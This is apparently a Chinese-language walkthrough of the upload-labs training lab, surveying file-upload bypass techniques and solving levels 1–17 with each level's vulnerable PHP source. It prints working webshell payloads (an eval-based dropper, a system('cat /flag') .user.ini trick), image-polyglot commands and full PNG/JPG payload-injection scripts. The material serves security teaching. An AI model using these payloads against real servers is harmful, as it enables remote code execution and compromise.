



一、简单上传绕过姿势
1.1、前端检查扩展名
抓包绕过即可。
1.2、Content-Type 检测文件类型
抓包修改 Content-Type 类型，使其符合白名单规则。
1.3、绕过服务器文件扩展名检测上传webshell
服务器端文件扩展名检测是利用服务器端应用程序检测用户上传文件的后缀名，从而做出允许或者阻止的一种方法，该方法包含黑名单和白名单两种形式，具体如下：
黑名单检测：一般是建立一个专门的blacklist文件，里面枚举常见的危险文件后缀。
白名单检测：一般是定义一个允许或者阻止用户上传文件类型的后缀的文件，里面枚举相应的文件后缀。绕过黑名单检测方法：
（1）文件名大小写绕过：诸如AsP、Aspx之类的后缀绕过黑名单检测。
（2）黑名单列表绕过：用黑名单里没有的后缀文件进行攻击，iis默认执行.asp、.asa、.cer，有时候黑名单过滤不全，没有过滤掉像后缀为asa、cer之类的文件，但这些文件可以像asp文件一样执行，此时可以使用这些后缀绕过黑名单。
（3）特殊文件名绕过：比如发送的HTTP包里把文件名改成test.asp. 或test.asp_(下划线为空格)，这两种命名方式在windows系统里是不被允许的，所以需要在代理工具burpsuite进行修改，然后绕过验证后，会被windows系统自动去掉后面的点和空格，但注意Unix/Linux系统没有此特性。
（4）0x00截断：在许多语言的常用字符串处理函数中，0x00被认为是终止符，比如应用只允许上传jpg图片，那么可以构造文件名为2.asp%00.jpg，.jpg绕过了应用的上传文件类型判断，但对于服务器来说，此文件因为%00字符截断的关系，最终会以2.asp存入路径里。
具体操作
文件名改成xxx.php+.jpg,因为+的hex值是2b,可以通过burp抓包将2b改成00
或者直接在文件名上urldecode
绕过白名单检测方法（1）0x00截断：基于白名单检查主要使用0x00截断绕过，同黑名单0x00截断绕过。但对于服务器来说，由于后台某些函数作用（诸如CreateTextFile()），此文件会被%00字符截断，最终会以2.asp存入路径里。
1.4、绕过文件内容检测上传webshell
件内容检测即通过检测特定文件某些特殊标志位来判断是否是允许上传的一种方法，以后缀为.jpg图片文件为例，该文件头有一组特殊二进制数标识 FF D8 FF E0 00 10 4A 46 49 46（这些二进制数也叫文件幻数），那么就可以通过判断上传文件的文件头来验证文件的类型。
其实检测文件幻数只是检测的一项内容，还可以对文件相关信息、文件渲染加载后检测，面对这些检测，可以把一句话木马注入图片文件最后面，这样既实现了代码注入也不会破坏图片结构，具体步骤包括：代码注入图片、引用创建的文件、使用客户端连接一句话木马。
1.5、利用服务器解析漏洞
1）IIS6.0解析漏洞1
此洞原理是处理文件扩展名出错，导致将/.asp/目录下的所有文件都作为asp文件进行解析。此外具有此特性的不单单是类似/.asp/目录，还包括/.cer /、/.asa /、/.cdx /、/.cer (此种类型浏览器直接输入不允许，需要借助burpsuite工具)、/.asa \、/.cdx \目录，本例子以/*.asp/目录举例。（2）IIS6.0解析漏洞2
该漏洞的原理是IIS6.0不能正确够解析文件名包含分号（;）的文件，因此诸如2.asp;xx.jpg类似的文件会被解析成2.asp可执行文件，从而导致脚本被执行。此外具有此特性的不单单是类似2.asp;xx.jpg，还包括2.cer;xx.jpg、2.asa;xx.jpg、2.cdx;xx.jpg类型。（3）IIS7.0/7.5解析漏洞
IIS7.0/7.5是对php 解析时有一个解析漏洞，只要在url后面追加上字符串”/任意文件名.php”就会按照php的方式去解析，其实这个漏洞是出自php-cgi的漏洞，与IIS7.0/7.5本身无关，具体例子如下。
服务器端test.jpg代码为：
输入：http://[IP]/test.jpg/noexist.php，会将test.jpg当做php进行解析，其中noexist.php是不存在的文件（但后缀必须是.php）。（4）Apache文件解析漏洞（不过本地我没跑过orz）
Apache对于文件名的解析是从后往前解析的，直到遇见一个apache认识的文件类型为止，比如phpshell.php.rar.rar，由于apache不认识.rar文件类型，所以会一直遍历后缀直到.php，然后认为这是个php类型的文件，这样的话可以上传一个包含一句话木马文件名类似phpshell.php.rar.rar的文件，访问该文件将会被当成php文件解析执行，具有此漏洞的版本包括：Apache 2.2.11、Apache 2.2.17、Apache 2.2.6、Apache 2.0.59、Apache 2.2.8。（5）Nginx解析漏洞
该漏洞是对一个任意文件名，在后面添加/任意文件名.php的解析漏洞，比如源文件名为nginx.jpg，可以添加成nginx.jpg/x.php，nginx就会把nginx.jpg当成php文件来解析，其实可以说这个漏洞与nginx本身关系不大，nginx只是作为一个代理把请求转发给fastcgi server，php在后端处理这一切，漏洞原因在fasgcgi方式下，php获取环境变量的方式有关，该漏洞官方没有补丁，php认为是一个新特性，为预防该漏洞官方建议修改php.ini文件中cgi.fix_pathinfo为0。nginx还有一个自身的漏洞，就是它可以对任意文件名后面添加%00.php当成php文件来解析，该漏洞出现在nginx较低版本，包括nginx 0.5.、nginx 0.6.、nginx 0.7 <= 0.7.65、nginx 0.8 <= 0.8.37。
1.6、利用.htaccess文件上传webshell
htaccess文件的作用主要是对主配置文件没有访问权限，但又想改变某目录配置情况下使用，假如服务器端没有过滤后缀为.htaccess文件，那么攻击者可以构造该文件修改所在目录文件的配置，比如修改该文件下含“haha”字符串的所有文件按照php文件来解析，那么攻击者在上传构造的.htaccess文件后，再上传仍以后缀只有包含“haha”字符串的一句话木马文件，该文件会被当成php文件解析，具体如下：
- 建立特定.htaccess 文件
- 建立一句话木马文件
- 上传上述文件，并使用菜刀连接
添加文件.htaccess，写入AddType application/x-httpd-php .jpg
或者
<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>1.7、利用 .user.ini
nginx中使用
我们可以上传一个这样的.user.ini：
GIF89a
auto_prepend_file=a.jpg然后再上传一个这样的图片马a.jpg：
GIF89a
<script language='php'>system('cat /flag');</script>正文
环境配置
github地址：https://github.com/c0ny1/upload-labs
直接跑docker就完事了
创建镜像
$ cd upload-labs/docker
$ docker build -t upload-labs .或
$ docker pull c0ny1/upload-labs创建容器
$ docker run -d -p 80:80 upload-labs:latest
所有题目我们均上传phpinfo.php，执行成功便代表解出题目
Pass-01
由前端限制，直接控制台修改函数就行
源码
function checkFile() {
var file = document.getElementsByName('upload_file')[0].value;
if (file == null || file == "") {
alert("请选择要上传的文件!");
return false;
}
//定义允许上传的文件类型
var allow_ext = ".jpg|.png|.gif";
//提取上传文件的类型
var ext_name = file.substring(file.lastIndexOf("."));
//判断上传文件类型是否允许上传
if (allow_ext.indexOf(ext_name + "|") == -1) {
var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
alert(errMsg);
return false;
}
}Hack:
上传成功-前端果然无安全可言~
Pass-02
只判断了Content-Type
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = '文件类型不正确，请重新上传！';
}
} else {
$msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
}
}Hack:
方法1：上传一个phpinfo.php,然后抓包修改Content-Type: image/jpeg
方法2：上传一个phpinfo.jpg，然后抓包修改后缀为php

Pass-03
后端禁了后缀'.asp','.aspx','.php','.jsp'
如果严格大小写可以大小写绕过，忽略了大小写可以用别名：php2, php3, php4, php5, phps, pht, phtm, phtml
源码
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array('.asp','.aspx','.php','.jsp');
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext); //转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //收尾去空
if(!in_array($file_ext, $deny_ext)) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
if (move_uploaded_file($temp_file,$img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}Hack:
php3,phtml绕过
Pass-04
通过htaccess绕过
本题基本上ban了所有我们想要的后缀，除了jpg,但是没有ban.htaccess
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext); //转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //收尾去空
if (!in_array($file_ext, $deny_ext)) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = '此文件不允许上传!';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}Hack:
新建文件.htaccess,内容为：(所有文件当php执行)
SetHandler application/x-httpd-php或者（指定jpg当php执行）
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>(win10建没有名字的文件copy htaccess.txt .htaccess)
Pass-05
大小写绕过
源码
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //首尾去空
if (!in_array($file_ext, $deny_ext)) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = '此文件类型不允许上传！';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}由于上了上面的$file_ext = strtolower($file_ext); //转换为小写，所以可以大小写绕过
Hack
上传一个phpinfo.Php即可
Pass-06
由于缺少trim，可以空格过滤~
上传成功了，我晕了保存的文件后缀居然也有空格，而且保存的时候没消除~网上说windows保存会默认取消后面的空格？？wtf大家都用win10搭靶场么
我晕了-这个应该只是单纯的win10漏洞吧
Pass-07
还是黑名单，但是没有对后缀名进行去”.”处理,这就要求win10服务器了
Hack:
利用windows特性，会自动去掉后缀名中最后的”.”，可在后缀名中加”.”绕过：
Pass-08
少了$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
查了一下::$DATA干嘛的
在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名 他的目的就是不检查后缀名....所以抓包上传，在文件名尾部添加::$DATA
Pass-09
未递归过滤，可以复写绕过
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext); //转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //首尾去空
if (!in_array($file_ext, $deny_ext)) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = '此文件类型不允许上传！';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}由于构造$img_path = UPLOAD_PATH.'/'.$file_name;这样的文件名，复写回到第七关
Hack:
构造phpinfo.php..,这样的文件名
Pass-10
过滤了后缀，复写绕过（类似于sql里的selselectect
源码
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = str_ireplace($deny_ext,"", $file_name);
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}
?>Hack:
phpinfo.phphpp
Pass-11
设置了白名单，%00截断
源码
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$ext_arr = array('jpg','png','gif');
$file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
if(in_array($file_ext,$ext_arr)){
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else{
$msg = "只允许上传.jpg|.png|.gif类型文件！";
}
}%00截断条件
php版本小于5.3.4详情关注CVE-2006-7243
php的magic_quotes_gpc为OFF状态Hack:
$img_path可以自己控制，%00截断以后服务器会认为是test.php
不过我死活绕不过去,Windows服务器也部署了一下好像一样的，嘤嘤嘤
（如果burp抓不到本地的包，可以改一下自己的host,然后访问即可
Pass-12
还是利用00截断，但这次需要在二进制中进行修改，因为post不会像get对%00进行自动解码。
，依然打不通，
burp里先写%00,然后转码方便一些
Pass-13
检验了文件头2个字节,
对应关系如下
jpg->FF D8 -> 255 216
png->89 50 ->137 90
gif->47 49 -> 71 73源代码
function getReailFileType($filename){
$file = fopen($filename, "rb");
$bin = fread($file, 2); //只读2字节
fclose($file);
$strInfo = @unpack("C2chars", $bin);
$typeCode = intval($strInfo['chars1'].$strInfo['chars2']);
$fileType = '';
switch($typeCode){
case 255216:
$fileType = 'jpg';
break;
case 13780:
$fileType = 'png';
break;
case 7173:
$fileType = 'gif';
break;
default:
$fileType = 'unknown';
}
return $fileType;
}
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$temp_file = $_FILES['upload_file']['tmp_name'];
$file_type = getReailFileType($temp_file);
if($file_type == 'unknown'){
$msg = "文件未知，上传失败！";
}else{
$img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = "上传出错！";
}
}
}
Hack:
先制作木马
copy normal.jpg /b + shell.php /a webshell.jpg上传成功但是后缀不能改，所以通过包含丢出去
<?php
$file=$_GET['page'];
include($file);?>Pass-14
getimagesize()函数绕过
先看看getimagesize()函数干嘛的
etimagesize() 函数用于获取图像大小及相关信息，成功返回一个数组
源码
function isImage($filename){
$types = '.jpeg|.png|.gif';
if(file_exists($filename)){
$info = getimagesize($filename);
$ext = image_type_to_extension($info[2]);
if(stripos($types,$ext)>=0){
return $ext;
}else{
return false;
}
}else{
return false;
}
}
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$temp_file = $_FILES['upload_file']['tmp_name'];
$res = isImage($temp_file);
if(!$res){
$msg = "文件未知，上传失败！";
}else{
$img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = "上传出错！";
}
}
}Hack:
13一样，当你直接改后缀返回bool,但是和13一样的payload即可
Pass-15
exif_imagetype函数绕过
exif_imagetype函数作用：
文档描述：exif_imagetype() reads the first bytes of an image and checks its signature.
function isImage($filename){
//需要开启php_exif模块
$image_type = exif_imagetype($filename);
switch ($image_type) {
case IMAGETYPE_GIF:
return "gif";
break;
case IMAGETYPE_JPEG:
return "jpg";
break;
case IMAGETYPE_PNG:
return "png";
break;
default:
return false;
break;
}
}
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$temp_file = $_FILES['upload_file']['tmp_name'];
$res = isImage($temp_file);
if(!$res){
$msg = "文件未知，上传失败！";
}else{
$img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$res;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = "上传出错！";
}
}
}
hack：
和十三一样
Pass-16
二次渲染绕过
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
// 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
$filename = $_FILES['upload_file']['name'];
$filetype = $_FILES['upload_file']['type'];
$tmpname = $_FILES['upload_file']['tmp_name'];
$target_path=UPLOAD_PATH.'/'.basename($filename);
// 获得上传文件的扩展名
$fileext= substr(strrchr($filename,"."),1);
//判断文件后缀与类型，合法才进行上传操作
if(($fileext == "jpg") && ($filetype=="image/jpeg")){
if(move_uploaded_file($tmpname,$target_path)){
//使用上传的图片生成新的图片
$im = imagecreatefromjpeg($target_path);
if($im == false){
$msg = "该文件不是jpg格式的图片！";
@unlink($target_path);
}else{
//给新图片指定文件名
srand(time());
$newfilename = strval(rand()).".jpg";
//显示二次渲染后的图片（使用用户上传图片生成的新图片）
$img_path = UPLOAD_PATH.'/'.$newfilename;
imagejpeg($im,$img_path);
@unlink($target_path);
$is_upload = true;
}
} else {
$msg = "上传出错！";
}
}else if(($fileext == "png") && ($filetype=="image/png")){
if(move_uploaded_file($tmpname,$target_path)){
//使用上传的图片生成新的图片
$im = imagecreatefrompng($target_path);
if($im == false){
$msg = "该文件不是png格式的图片！";
@unlink($target_path);
}else{
//给新图片指定文件名
srand(time());
$newfilename = strval(rand()).".png";
//显示二次渲染后的图片（使用用户上传图片生成的新图片）
$img_path = UPLOAD_PATH.'/'.$newfilename;
imagepng($im,$img_path);
@unlink($target_path);
$is_upload = true;
}
} else {
$msg = "上传出错！";
}
}else if(($fileext == "gif") && ($filetype=="image/gif")){
if(move_uploaded_file($tmpname,$target_path)){
//使用上传的图片生成新的图片
$im = imagecreatefromgif($target_path);
if($im == false){
$msg = "该文件不是gif格式的图片！";
@unlink($target_path);
}else{
//给新图片指定文件名
srand(time());
$newfilename = strval(rand()).".gif";
//显示二次渲染后的图片（使用用户上传图片生成的新图片）
$img_path = UPLOAD_PATH.'/'.$newfilename;
imagegif($im,$img_path);
@unlink($target_path);
$is_upload = true;
}
} else {
$msg = "上传出错！";
}
}else{
$msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
}
}
hack:
和13一样传gif后发现有个问题就是渲染后内容变了

但是有些没变，GIF我们可以把我们要写的木马语句写入到没变的那一段即可
png可以脚本跑
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./1.png');
?>JPG生成
<?php
/*
The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
It is necessary that the size and quality of the initial image are the same as those of the processed image.
1) Upload an arbitrary image via secured files upload script
2) Save the processed image and launch:
jpg_payload.php <jpg_name.jpg>
In case of successful injection you will get a specially crafted image, which should be uploaded again.
Since the most straightforward injection method is used, the following problems can occur:
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".
If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
Sergey Bobrov @Black2Fan.
See also:
https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
*/
$miniPayload = "<?=phpinfo();?>";
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
die('php-gd is not installed');
}
if(!isset($argv[1])) {
die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
$nullbytePayloadSize = $pad;
$dis = new DataInputStream($argv[1]);
$outStream = file_get_contents($argv[1]);
$extraBytes = 0;
$correctImage = TRUE;
if($dis->readShort() != 0xFFD8) {
die('Incorrect SOI marker');
}
while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
$marker = $dis->readByte();
$size = $dis->readShort() - 2;
$dis->skip($size);
if($marker === 0xDA) {
$startPos = $dis->seek();
$outStreamTmp =
substr($outStream, 0, $startPos) .
$miniPayload .
str_repeat("\0",$nullbytePayloadSize) .
substr($outStream, $startPos);
checkImage('_'.$argv[1], $outStreamTmp, TRUE);
if($extraBytes !== 0) {
while((!$dis->eof())) {
if($dis->readByte() === 0xFF) {
if($dis->readByte !== 0x00) {
break;
}
}
}
$stopPos = $dis->seek() - 2;
$imageStreamSize = $stopPos - $startPos;
$outStream =
substr($outStream, 0, $startPos) .
$miniPayload .
substr(
str_repeat("\0",$nullbytePayloadSize).
substr($outStream, $startPos, $imageStreamSize),
0,
$nullbytePayloadSize+$imageStreamSize-$extraBytes) .
substr($outStream, $stopPos);
} elseif($correctImage) {
$outStream = $outStreamTmp;
} else {
break;
}
if(checkImage('payload_'.$argv[1], $outStream)) {
die('Success!');
} else {
break;
}
}
}
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
global $correctImage;
file_put_contents($filename, $data);
$correctImage = TRUE;
imagecreatefromjpeg($filename);
if($unlink)
unlink($filename);
return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
global $extraBytes, $correctImage;
$correctImage = FALSE;
if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
if(isset($m[1])) {
$extraBytes = (int)$m[1];
}
}
}
class DataInputStream {
private $binData;
private $order;
private $size;
public function __construct($filename, $order = false, $fromString = false) {
$this->binData = '';
$this->order = $order;
if(!$fromString) {
if(!file_exists($filename) || !is_file($filename))
die('File not exists ['.$filename.']');
$this->binData = file_get_contents($filename);
} else {
$this->binData = $filename;
}
$this->size = strlen($this->binData);
}
public function seek() {
return ($this->size - strlen($this->binData));
}
public function skip($skip) {
$this->binData = substr($this->binData, $skip);
}
public function readByte() {
if($this->eof()) {
die('End Of File');
}
$byte = substr($this->binData, 0, 1);
$this->binData = substr($this->binData, 1);
return ord($byte);
}
public function readShort() {
if(strlen($this->binData) < 2) {
die('End Of File');
}
$short = substr($this->binData, 0, 2);
$this->binData = substr($this->binData, 2);
if($this->order) {
$short = (ord($short[1]) << 8) + ord($short[0]);
} else {
$short = (ord($short[0]) << 8) + ord($short[1]);
}
return $short;
}
public function eof() {
return !$this->binData||(strlen($this->binData) === 0);
}
}
?>准备
随便找一个jpg图片,先上传至服务器然后再下载到本地保存为1.jpg.
插入php代码
使用脚本处理1.jpg,命令php jpg_payload.php 1.jpg
详细介绍https://xz.aliyun.com/t/2657#toc-13
Pass-17
条件竞争
竞争条件原理介绍
网站逻辑：
1、网站允许上传任意文件，然后检查上传文件是否包含webshell,如果包含删除该文件。
2、网站允许上传任意文件，但是如果不是指定类型，那么使用unlink删除文件。
在删除之前访问上传的php文件，从而执行上传文件中的php代码。
例如：上传文件代码如下
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"])?>');?>源码
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$ext_arr = array('jpg','png','gif');
$file_name = $_FILES['upload_file']['name'];
$temp_file = $_FILES['upload_file']['tmp_name'];
$file_ext = substr($file_name,strrpos($file_name,".")+1);
$upload_file = UPLOAD_PATH . '/' . $file_name;
if(move_uploaded_file($temp_file, $upload_file)){
if(in_array($file_ext,$ext_arr)){
$img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
rename($upload_file, $img_path);
$is_upload = true;
}else{
$msg = "只允许上传.jpg|.png|.gif类型文件！";
unlink($upload_file);
}
}else{
$msg = '上传出错！';
}
}Hack:
这里先将文件上传到服务器，然后通过rename修改名称，再通过unlink删除文件，因此可以通过条件竞争的方式在unlink之前，访问webshell。
先新建一个php，包含写入一句话木马
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"])?>');?>发两个包，一个是一直上传demo.php,一个是一直访问demo.php
通过竞争，可能会写入shell.php

emm，没跑出来，估计是我拿自己本子处理太快了，写文件太难了，所以简单一些我们写入
<?php phpinfo();?>
成功了
